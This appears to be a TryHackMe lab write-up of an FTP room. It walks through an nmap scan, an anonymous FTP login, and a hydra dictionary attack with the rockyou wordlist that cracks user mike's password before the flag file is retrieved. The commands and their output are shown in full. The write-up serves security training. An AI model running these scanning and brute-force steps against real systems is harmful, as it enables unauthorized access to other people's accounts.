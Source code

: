 ```yaml
---
Author: Michael Baumberger
title: Network Services FTP
parent: Network Services
ancestor: Try Hack Me Writeups
---
```


# Network Services FTP

## Enumerating FTP

Always start with a nmap scan:

````
nmap -sV -A 10.10.189.117
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-18 23:55 CET
Nmap scan report for 10.10.189.117
Host is up (0.047s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.0.8 or later
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.9.205.135
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             353 Apr 24  2020 PUBLIC_NOTICE.txt
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: Host: Welcome


Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.35 seconds
````

You can see that **2 ports** are open. The **ftp port is 21**. You also can see that the **ftp variant vsFTPd** is used.

The nmap says that ftp anonymous login is allowed so we try it:

````
ftp 10.10.189.117
Connected to 10.10.189.117.
220 Welcome to the administrator FTP service.
Name (10.10.189.117:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
````

Now we can list the FTP directory and we see the **file PUBLIC_NOTICE.txt**.
Let us get the file via *'get PUBLIC_NOTICE.txt -'*.
The content of the file contains the probably **username mike**.

## Exploiting FTP

Lets dictionary attack the password of mice with hydra:

````
hydra -t 8 -l mike -P /usr/share/wordlists/rockyou.txt 10.10.189.117 ftp
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-12-19 00:12:11
[DATA] max 8 tasks per 1 server, overall 8 tasks, 14344399 login tries (l:1/p:14344399), ~1793050 tries per task
[DATA] attacking ftp://10.10.189.117:21/
[21][ftp] host: 10.10.189.117   login: mike   password: password
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-12-19 00:12:27
````

Hydra got the **password 'password'** for the user mike.

Lets connect and get the ftp.txt with the flag:

````
ftp 10.10.189.117
Connected to 10.10.189.117.
220 Welcome to the administrator FTP service.
Name (10.10.189.117:root): mike
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> get ftp.txt -
````
